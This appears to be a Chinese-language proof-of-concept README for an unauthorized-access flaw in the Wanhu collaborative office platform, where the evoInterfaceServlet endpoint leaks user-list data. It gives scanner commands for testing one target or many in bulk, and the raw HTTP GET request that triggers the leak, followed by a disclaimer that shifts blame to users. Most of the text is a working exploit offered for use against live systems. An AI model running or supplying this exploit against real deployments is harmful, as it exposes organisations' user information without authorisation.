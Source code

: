 # 万户协同办公平台未授权访问

万户协同办公平台evoInterfaceServlet存在未授权访问漏洞，可获取userlist敏感信息。


## 工具利用

python3 Wanhu_userlist_scan.py -u http://127.0.0.1:1111 单个url测试

python3 Wanhu_userlist_scan.py -f url.txt 批量检测

![poc](./poc.jpg)

```
GET /defaultroot/evoInterfaceServlet?paramType=user HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.3096.130 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```
![poc](./exp.jpg)



## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
